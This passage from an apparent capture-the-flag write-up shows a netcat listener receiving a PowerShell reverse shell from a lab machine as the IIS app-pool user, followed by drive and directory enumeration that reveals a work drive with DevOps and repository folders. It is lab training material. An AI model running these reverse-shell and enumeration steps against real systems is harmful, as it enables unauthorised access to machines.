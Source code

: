 ```bash
root@darkness:~# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.203.
Ncat: Connection from 10.10.10.203:52336.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```

We get a reverse-shell as `defaultapppool` and can now start enumerating the system.

## Privesc - User

Now that we have initial shell let us start enumerating the system to find a privesc-vector to get a user shell.

### Enumerating the system

After a lot of searching I eventually tried to list all drives installed.

```powershell
PS C:\> Get-Volume

DriveLetter FriendlyName FileSystemType DriveType HealthStatus OperationalStatus SizeRemaining    Size
----------- ------------ -------------- --------- ------------ ----------------- -------------    ----
C                        NTFS           Fixed     Healthy      OK                      9.72 GB 29.4 GB
W           Work         NTFS           Fixed     Healthy      OK                     17.48 GB   20 GB
            Recovery     NTFS           Fixed     Healthy      OK                    118.04 MB  499 MB
```

There seems to be a drive `W`. Let us check it out.

```powershell
PS W:\> dir

    Directory: W:\
    
Mode                LastWriteTime         Length Name                   
----                -------------         ------ ----                   
d-----       2020-06-16     18:59                agents                 
d-----       2020-03-28     14:57                AzureDevOpsData         
d-----       2020-04-03     11:31                sites                   
d-----       2020-06-20     16:04                svnrepos
```
